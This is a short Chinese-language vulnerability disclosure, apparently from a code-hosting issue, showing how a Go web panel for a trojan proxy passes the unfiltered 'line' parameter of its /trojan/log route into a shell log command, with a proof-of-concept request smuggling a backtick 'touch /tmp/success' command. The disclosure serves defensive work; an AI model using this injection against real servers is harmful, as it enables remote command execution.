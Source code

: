 ```go
		c.JSON(200, controller.SetLogLevel(level))
	})
	router.POST("/trojan/domain", func(c *gin.Context) {
		c.JSON(200, controller.SetDomain(c.PostForm("domain")))
	})
	router.GET("/trojan/log", func(c *gin.Context) {
		controller.Log(c)
	})
}
```

其中/trojan/log路径调用controller.Log(c),传递参数c

跟进 Log方法，到 web/controller/trojan.go

```go
// Log 通过ws查看trojan实时日志
func Log(c *gin.Context) {
	var (
		wsConn *websocket.WsConnection
		err    error
	)
	if wsConn, err = websocket.InitWebsocket(c.Writer, c.Request); err != nil {
		fmt.Println(err)
		return
	}
	defer wsConn.WsClose()
	param := c.DefaultQuery("line", "300")
	if param == "-1" {
		param = "--no-tail"
	} else {
		param = "-n " + param
	}
	result, err := websocket.LogChan("trojan", param, wsConn.CloseChan)
	if err != nil {
		fmt.Println(err)
		wsConn.WsClose()
		return
	}
	for line := range result {
		if err := wsConn.WsWrite(ws.TextMessage, []byte(line+"\n")); err != nil {
			log.Println("can't send: ", line)
			break
		}
	}
}
```

可以看到param无过滤，直接被传给了LogChan

poc

```go
GET /trojan/log?line=300`touch%20/tmp/success`&token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2NjQxNzkzNDcsImlkIjoiYWRtaW4iLCJvcmlnX2lhdCI6MTY2NDE3MjE0N30.iuFiunMc5kx8q4_2CZzAnGQPLjpSK0BW_1X6_bRdP04 HTTP/1.1
Host: 123.centos-stream.org
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Upgrade: websocket
Origin: http://123.centos-stream.org
Sec-WebSocket-Version: 13
Accept-Encoding: gzip, deflate
```